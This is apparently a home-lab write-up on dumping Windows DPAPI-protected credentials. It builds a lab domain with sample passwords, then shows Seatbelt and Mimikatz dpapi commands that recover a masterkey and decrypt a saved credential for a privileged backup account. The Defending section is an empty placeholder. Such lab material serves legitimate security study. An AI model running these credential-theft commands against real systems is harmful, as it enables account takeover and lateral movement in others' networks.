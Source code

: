 # Dumping DPAPI

## Configuring

1. Login to `DC03` as the `Administrator` user with the password `Welcome01!`.
2. Open the "Active Directory Users and Computers" management tool and open the "Users" directory. Right click the "Users" directory and click "New User"
3. Create a user with the name `sa_backup` and the password `LS6RV5o8T9`. Make sure you deselect "User must change password at next logon" and select "Password never expires".

![](<../../.gitbook/assets/image (67).png>)

![](<../../.gitbook/assets/image (62).png>)

4\. Add the user to the "Account operator" and "Backup Operator" groups via the interface, memberof section or run the following command:

```
Add-ADGroupMember "Account Operators" -Members sa_backup
Add-ADGroupMember "Backup Operators" -Members sa_backup
```

5\. Login with the `sa_sql` user and the password `Iloveyou2` on `DATA01`.

6\. Click start and open the "Credential Manager".

![](<../../.gitbook/assets/image (64).png>)

7\. Click on the "Windows Credentials" tab and select "Add a Windows credential".

![](<../../.gitbook/assets/image (12) (1).png>)

8\. Fill in the following information:

* Internet or network address: `secure.local`
* User Name: `sa_backup`
* Password: `LS6RV5o8T9`

![](<../../.gitbook/assets/image (21).png>)

## Attacking

### How it works

If a user is logged in or if you have the password of a user you can retrieve its DPAPI masterkey and decrypt the saved credentials on machines. These saved credentials might give you access to other systems

### Tools

* [Seatbelt](https://github.com/GhostPack/Seatbelt)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)

### Executing the attack

1. One of the things I like to do when gaining access to a system is running seatbelt. This program will check many things like permissions, groups and for stored credentials. The tool describes itself as:

> Seatbelt is a C# project that performs a number of security oriented host-survey "safety checks" relevant from both offensive and defensive security perspectives.

2\. To run seatbelt and do some of it checks we can run the following command:

```
.\Seatbelt.exe -group=user
```

3\. In the output of the seciont WindowsCredentialFiles we can see that the user sa\_sql has some credentials saved:

![](<../../.gitbook/assets/image (18).png>)

4\. We can find the master encryption key id and some information with the following Mimikatz command using this path:

```
./mimikatz.exe
dpapi::cred /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Credentials\02BF8752741C7A447536E822E53153CD
```

![](<../../.gitbook/assets/image (12).png>)

The `pbData` field contains the encrypted data and the `guidMasterKey` contains the GUID of the key needed to decrypt it.

{% hint style="info" %}
The latest compiled version of Mimikatz doesn't work on server 2022. Compiling the latest commit with Visual Studio 2019 gave me some errors, but this [https://github.com/matrix/mimikatz/tree/type\_cast-pointer\_truncation\_x64](https://github.com/matrix/mimikatz/tree/type\_cast-pointer\_truncation\_x64) repostory/pull request worked for me without errors! I really hate compiling tools like this, always errors :cry:
{% endhint %}

5\. The next step is to retrieve the masterkey with the password of the user. Luckily we had its password from the time we captured it after doing a UNC path injection through the SQL Service. The password of the `sa_sql` user was `Iloveyou2`.

```
dpapi::masterkey /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Protect\S-1-5-21-1498997062-1091976085-892328878-1106\e1f462bb-9a65-40f0-a144-4f64bea97ce2 /sid:S-1-5-21-1498997062-1091976085-892328878-1106 /password:Iloveyou2 /protected
```

![](<../../.gitbook/assets/image (11).png>)

6\. We were able to retrieve the Masterkey, it it shown at almost the end of the output. Now we can read the saved credentials with the masterkey using the following Mimikatz command:

```
dpapi::cred /in:C:\Users\sa_sql\AppData\Roaming\Microsoft\Credentials\02BF8752741C7A447536E822E53153CD /masterkey:b3e8630e96acba990f836b4462a9285a4c987776f17f11b2559d9fdf67d03cf6b99dd89445d5641aef6f4477f7354eb6f19e3053e1d56712f45bc227249cdea2
```

![](<../../.gitbook/assets/image (2).png>)

First we get the output of the first mimikatz command we ran, some information about the credentials. The output shows is the saved credential for the `sa_backup` user with the password `LS6RV5o8T9`.

7\. With the help of PowerView we can quickly check if this user has any value:

![](<../../.gitbook/assets/image (4).png>)

In PowerView we can see that `sa_backup` is member of the `Account Operators` en `Backup Operators` groups. These groups are interesting!

## Defending

### Recommendations

* a

### Detection



## References

